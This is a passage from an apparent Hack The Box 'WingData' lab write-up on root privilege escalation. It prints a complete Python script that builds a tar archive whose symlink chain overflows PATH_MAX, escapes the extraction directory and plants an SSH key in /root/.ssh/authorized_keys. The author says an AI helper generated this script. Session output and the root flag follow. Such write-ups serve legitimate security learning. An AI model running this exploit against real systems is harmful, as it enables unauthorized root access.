        print(f"[+] Extraction completed in {staging_dir}")
    except (tarfile.TarError, OSError, Exception) as e:
        print(f"[!] Error during extraction: {e}", file=sys.stderr)
        sys.exit(2)

if __name__ == "__main__":
    main()
```

We quickly tested the script to understand its behaviour.

```shell
wacky@wingdata:~$ sudo /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py *
usage: restore_backup_clients.py [-h] -b BACKUP -r RESTORE_DIR
restore_backup_clients.py: error: the following arguments are required: -b/--backup, -r/--restore-dir
```

```shell
wacky@wingdata:~$ sudo /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py -b /root  -r /tmp/
[!] Invalid backup name. Expected format: backup_<client_id>.tar (e.g., backup_1001.tar)
```

The script validated backup names and restored directories but used `tarfile.extractall()` with the `filter="data"` parameter.

## Privilege Escalation to root

### CVE-2024-4030: Python Tarfile Realpath Overflow

Based on the script using `Python tarfile` we found out that the `Python tarfile` module was vulnerable to `CVE-2024-4030` or `Python Tarfile Realpath Overflow`.

- [https://github.com/google/security-research/security/advisories/GHSA-hgqp-3mmf-7h8f](https://github.com/google/security-research/security/advisories/GHSA-hgqp-3mmf-7h8f)

The vulnerability allowed escaping the extraction directory by creating deeply nested symlinks that exceed `PATH_MAX` causing realpath resolution to fail. This enables arbitrary file writes outside the intended extraction directory.

Next we asked out AI buddy to create a malicious `tar` archive to exploit the vulnerability.

```shell
wacky@wingdata:/opt/backup_clients/backups$ cat exploit.py 
import tarfile
import os
import io
import sys

# The staging dir will be:
# /opt/backup_clients/restored_backups/restore_john/
# We need to escape up from there to write to e.g. /root/.ssh/

comp = 'd' * 247
steps = "abcdefghijklmnop"
path = ""

with tarfile.open("/opt/backup_clients/backups/backup_1001.tar", mode="w") as tar:
    # Build the symlink/dir chain to overflow PATH_MAX
    for i in steps:
        a = tarfile.TarInfo(os.path.join(path, comp))
        a.type = tarfile.DIRTYPE
        tar.addfile(a)

        b = tarfile.TarInfo(os.path.join(path, i))
        b.type = tarfile.SYMTYPE
        b.linkname = comp
        tar.addfile(b)

        path = os.path.join(path, comp)

    # Symlink that exceeds PATH_MAX - points back to top of extraction
    linkpath = os.path.join("/".join(steps), "l" * 254)
    l = tarfile.TarInfo(linkpath)
    l.type = tarfile.SYMTYPE
    l.linkname = "../" * len(steps)
    tar.addfile(l)

    # Escape symlink pointing to /root/.ssh
    e = tarfile.TarInfo("escape")
    e.type = tarfile.SYMTYPE
    e.linkname = linkpath + "/../../../../root/.ssh"
    tar.addfile(e)

    # Write authorized_keys through the escape symlink
    pubkey = b"ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQDLe30SIt4ehPSdr4JIuZdQRoWmPo3p6txvjK9OcYC9wTvyDeI2emq63QE+YkqatnXJfLJhgEPXRzXltVrO6KGE3PMoyarwHC6NvDx9Fsjl2oSs0/XqUuSz+nkXWmjUgqP4I7SQar7n6lPBwQBUqnQvhrAZQYlDs4ibsiho0c+VnjJu385eSl8AshVZzf/mMkgvMcs2+NLGpbxbsaErLkBikKNA2OdN03SNLcdReIyLYaYMO2c6IJxK3TnPKvugiZIObYR5Wnvi8ZacqR4DqdfGu4PO8Mw+lyqKRRQNLB5rCK1R47HnRvpnTniR+RA9lT5zh+Wt1F6IBJYow7+zUQqk2+KEMF3Bi4QfYy2nBN7tq7dQMUC5kwOuF7JEnzbBCFAQuLy4TMzVa7LMO6tM+sKHWa9oXt2elvqo5kf4OJL4t2Q04797+3T2tdxDBptLTHG9YtLX+nMWTMIZAE4ia8m/4CJblFmoq2V9F01JeI6cphikXjLk+8yms3QQnPRGJZWo1bFcFvVpyvffhjxYoumWIryOkWs4Hajo+IfOiVrHtpzGSsOUw475yPTG9K6Y1NIxegv62HfzK3+jpMmSrz7wU6qDtEh724XQqaG2NWum3EcrZMJokb8YBeH8SLJtczcfMo4AWB5NXncpZC4+JFu+aT4QY7xrFANsDcNUbsPmqw==\n"
    n = tarfile.TarInfo("escape/authorized_keys")
    n.type = tarfile.REGTYPE
    n.size = len(pubkey)
    n.mode = 0o600
    tar.addfile(n, fileobj=io.BytesIO(pubkey))
```

The script created a `tar` archive with:
- Deeply nested symlinks using 247-character directory names to overflow `PATH_MAX`
- A chain of 16 symlinks that eventually point back to the extraction root
- An `escape` symlink that traverses up to `/root/.ssh`
- An `authorized_keys` file containing our `SSH` public key

We executed the `exploit.py` and then triggered the extraction through the vulnerable backup restoration script.

```shell
acky@wingdata:/opt/backup_clients/backups$ python3 exploit.py
```

```shell
wacky@wingdata:/opt/backup_clients/backups$ sudo /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py -b backup_1001.tar -r restore_john
[+] Backup: backup_1001.tar
[+] Staging directory: /opt/backup_clients/restored_backups/restore_john
[+] Extraction completed in /opt/backup_clients/restored_backups/restore_john
```

The extraction completed successfully writing our `SSH` public key to `/root/.ssh/authorized_keys` through the symlink chain.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/WingData/files]
└─$ ssh root@10.129.6.218
Linux wingdata 6.1.0-42-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.159-1 (2025-12-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Feb 14 15:45:19 2026 from 10.10.16.154
root@wingdata:~#
```

## root.txt

```shell
root@wingdata:~# cat root.txt 
531d394c07bf68382e8eff591a0348dd
```
